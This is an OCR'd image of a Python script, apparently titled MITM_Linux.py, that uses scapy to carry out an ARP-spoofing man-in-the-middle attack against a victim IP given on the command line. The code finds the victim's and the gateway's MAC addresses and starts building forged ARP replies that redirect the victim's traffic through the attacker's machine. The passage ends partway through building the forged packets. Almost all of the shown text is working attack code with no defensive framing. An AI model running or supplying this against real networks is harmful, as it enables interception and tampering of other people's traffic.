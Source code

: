 \begin{verbatim}
#!/usr/bin/python3
#running command: python MITM_Linux.py victimIP

import sys  #for command line argument
import time
from random import randint
from scapy.all import *
from scapy.layers.inet import *
import scapy
import socket
import uuid 

s = conf.L2socket(iface="enp3s0") #for optimization

def get_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        # doesn't even have to be reachable
        s.connect(('192.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

#==============================================================
# Collect Necessary Information 
#==============================================================
my_ip = get_ip()
my_mac = str(':'.join(['{:02x}'.format((uuid.getnode() >>
            ele) & 0xff) for ele in range(0,8*6,8)][::-1])) 

print("my_ip : " + my_ip)
print("my_mac : " + my_mac)

victim_ip = sys.argv[1]

network_parts = str(victim_ip).split(".")
gateway_ip = network_parts[0]+ "." + network_parts[1] +
                "." + network_parts[2] + ".1" 

arp_packet = ARP(op=ARP.who_has, #request mac
	psrc=my_ip,              #request to reply to attacker
	pdst=victim_ip)	  #IP of the mac attacker needs
result = sr1(arp_packet)         #reply packet
victim_mac = result[ARP].hwsrc   #mac of victim

print("victim_ip : " + str(victim_ip))
print("victim_mac : " + str(victim_mac))

arp_packet = ARP(op=ARP.who_has, #request mac
	psrc=my_ip,              #request to reply to attacker
	pdst=gateway_ip)         #IP of the mac attacker needs
result = sr1(arp_packet)         #reply packet
gateway_mac = result[ARP].hwsrc  #mac of gateway

print("gateway_ip : " + str(gateway_ip))
print("gateway_mac : " + str(gateway_mac))

print()

#==============================================================
# Create ARP Spoofing Packets
#==============================================================
reply1 = ARP(op=ARP.is_at,       #forging arp reply
	hwsrc=my_mac,            #attacker's mac as victim's
	psrc=victim_ip,          #victim's IP to attacker's mac
	hwdst=gateway_mac,       #telling gateway
	pdst=gateway_ip)         #gateway IP


\end{verbatim}
